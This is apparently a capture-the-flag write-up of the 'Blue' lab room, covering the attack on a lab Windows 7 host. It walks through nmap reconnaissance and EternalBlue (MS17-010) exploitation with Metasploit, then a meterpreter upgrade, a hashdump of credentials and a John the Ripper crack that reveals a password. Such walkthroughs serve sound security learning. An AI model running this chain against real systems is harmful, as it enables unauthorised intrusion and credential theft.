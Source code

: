 # Blue

### Recon
- How many ports are open with a port number under 1000?<br />
First nmap scan: <br />

      $ nmap 10.10.8.108                          
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 08:39 EDT
      Nmap scan report for 10.10.8.108
      Host is up (0.049s latency).
      Not shown: 991 closed tcp ports (conn-refused)
      PORT      STATE SERVICE
      135/tcp   open  msrpc
      139/tcp   open  netbios-ssn
      445/tcp   open  microsoft-ds
      3389/tcp  open  ms-wbt-server
      49152/tcp open  unknown
      49153/tcp open  unknown
      49154/tcp open  unknown
      49158/tcp open  unknown
      49159/tcp open  unknown

      Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
Open ports under 1000 are `3`.
- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067) <br />
A more accurate scan: <br />

      nmap -p 0-1000 -sV -sC 10.10.8.108                                                                                  
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 08:42 EDT
      Nmap scan report for 10.10.8.108
      Host is up (0.058s latency).
      Not shown: 998 closed tcp ports (conn-refused)
      PORT    STATE SERVICE      VERSION
      135/tcp open  msrpc        Microsoft Windows RPC
      139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
      445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
      Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
      
      Host script results:
      | smb-os-discovery: 
      |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
      |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
      |   Computer name: Jon-PC
      |   NetBIOS computer name: JON-PC\x00
      |   Workgroup: WORKGROUP\x00
      |_  System time: 2024-09-02T06:42:21-05:00
      | smb2-security-mode: 
      |   2:1:0: 
      |_    Message signing enabled but not required
      |_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:95:7f:42:ac:55 (unknown)
      | smb2-time: 
      |   date: 2024-09-02T11:42:21
      |_  start_date: 2024-09-02T11:30:29
      | smb-security-mode: 
      |   account_used: guest
      |   authentication_level: user
      |   challenge_response: supported
      |_  message_signing: disabled (dangerous, but default)
      |_clock-skew: mean: 39m28s, deviation: 2h53m12s, median: -1h00m32s
      
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 13.27 seconds
So, after reaserching "Windows 7 Professional 7601 Service Pack 1 microsoft-ds", I found out that this SMB version is vulnerable to `MS17-010`, a.k.a. `EternalBlue`.

### Gain Access
- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
Open msfconsole and `use windows/smb/ms17_010_eternalblue` --> `set lhost your_IP` --> `set rhosts target_IP` --> `exploit`: <br />
- Show options and set the one required value. What is the name of this value? (All caps for submission) `RHOSTS`

### Escalate
- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) `post/multi/manage/shell_to_meterpreter`
- Select this (use MODULE_PATH). Show options, what option are we required to change? `SESSION`

### Cracking
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? <br />
![image](https://github.com/user-attachments/assets/85690b30-ca83-4967-9232-b90e9e5c85e2) <br />
`Jon`
- Copy this password hash to a file and research how to crack it. What is the cracked password?  <br />
To crack the password I'm going to use John the Ripper. Copy the line relative to "Jon" in a txt file. In windows password hashes are stored in NTLM format, so the final command is: `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt`. <br />
![image](https://github.com/user-attachments/assets/484d04fa-5f6e-4bb0-8a13-0cc01923d781)<br />
`alqfna22`

### Find flags!
- Flag1? This flag can be found at the system root. <br />
Move to `C:\` and run `cat flag1.txt`.
- Flag2? This flag can be found at the location where passwords are stored within Windows. <br />
Passwords are store in the SAM(Security Account Manager) directory, which is located at `C:\Windows\System32\config`.
- flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. <br />
I honestly didn't know where to look at, since this is my first windows machine. So I run `search -f flag3.txt` to find the flag, which was in c:\Users\Jon\Documents\flag3.txt. I was actually looking for some sort of administrator account but actually Jon is an administrator, my bad.
